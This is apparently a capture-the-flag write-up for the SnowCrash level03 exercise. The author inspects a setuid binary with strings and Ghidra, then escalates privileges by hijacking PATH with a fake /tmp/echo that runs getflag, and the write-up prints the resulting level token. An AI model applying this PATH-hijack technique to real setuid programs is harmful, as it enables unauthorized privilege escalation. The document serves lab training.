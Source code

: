 # level03
_The ritual_ :
- `pwd`: `/home/user/level03`
- `id`: `uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```
- `find / -user flag02 2> /dev/null`: **A LOT OF USELESS THINGS**
It show all the `/proc` folder.

_Oh... A binary file... **RUN IT**_
```sh
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
_Okay let's exploit you !_
- A binary file can't be read by a human, but there is some hint in it anyway, and the command `strings` isolate them :
```sh
level03@SnowCrash:~$ strings level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/home/user/level03
/usr/include/i386-linux-gnu/bits
/usr/include/i386-linux-gnu/sys
level03.c
types.h
types.h
long long int
__uid_t
envp
/home/user/level03/level03.c
long long unsigned int
setresuid
setresgid
unsigned char
GNU C 4.6.3
argc
__gid_t
short unsigned int
main
short int
argv
.symtab
.strtab
.shstrtab
.interp
.note.ABI-tag
.note.gnu.build-id
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rel.dyn
.rel.plt
.init
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.ctors
.dtors
.jcr
.dynamic
.got
.got.plt
.data
.bss
.comment
.debug_aranges
.debug_info
.debug_abbrev
.debug_line
.debug_str
.debug_loc
crtstuff.c
__CTOR_LIST__
__DTOR_LIST__
__JCR_LIST__
__do_global_dtors_aux
completed.6159
dtor_idx.6161
frame_dummy
__CTOR_END__
__FRAME_END__
__JCR_END__
__do_global_ctors_aux
level03.c
__init_array_end
_DYNAMIC
__init_array_start
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
setresuid@@GLIBC_2.0
__i686.get_pc_thunk.bx
data_start
_edata
_fini
geteuid@@GLIBC_2.0
getegid@@GLIBC_2.0
__DTOR_END__
__data_start
system@@GLIBC_2.0
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_start_main@@GLIBC_2.0
__libc_csu_init
_end
_start
_fp_hw
__bss_start
main
_Jv_RegisterClasses
setresgid@@GLIBC_2.0
_init
level03@SnowCrash:~$
```

- Okay, we can see these lines : `system` - `/usr/bin/env echo Exploit me`
-> In the binary we can see all function used and there arguments
- `system` execute a command line the terminal
- `/usr/bin/env echo Exploit me` can be how the output is execut.

_I think it's time to discover how to decompile a file_
- Let's tranfer this file in my machine :
```sh
➜  ~ scp -P 4242 level03@127.0.0.1:/home/user/level03/level03 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::2577:d9d0:9935:9a6 fec0::5054:ff:fe12:3456
level03@127.0.0.1's password:
level03                                                                                                                                                                   100% 8302   403.5KB/s   00:00
➜  ~
```
- And let's install [ghidra](https://ghidra-sre.org/)

**OKAY, the file is decompiled** :
![decompiled](../../assets/decompiled.png)
## YES ! I had just !

_So, what I have supposed to do now ?_

- We can "intercept" the command `echo` by adding a folder in the `PATH`, but wich one ? A folder for which I have the rights... **`/tmp`** ?
```sh
level03@SnowCrash:~$ export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
```
If I create a file named "echo" in `/tmp` with a command in it, what happened ?
```sh
level03@SnowCrash:~$ echo "ls" > /tmp/echo
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$
```
- Nothing happened... maybe the file has not the good permissions ?
```sh
level03@SnowCrash:~$ chmod 777 /tmp/echo
```
- Let's try again :
```sh
level03@SnowCrash:~$ ./level03
ls: cannot open directory .: Permission denied
level03@SnowCrash:~$
```
### SUCCESS, SOMETHING HAPPENED
_What we can do to this program ?... Which command can help us to complet this level ??? Mmmmhhhh..._
```sh
level03@SnowCrash:~$ echo "getflag" > /tmp/echo
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$
```
# YEEEEEEEESSS
Let's login to `level04` directly :
```sh
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```
# level03 complet !
![yeah](../../assets/yeah.gif)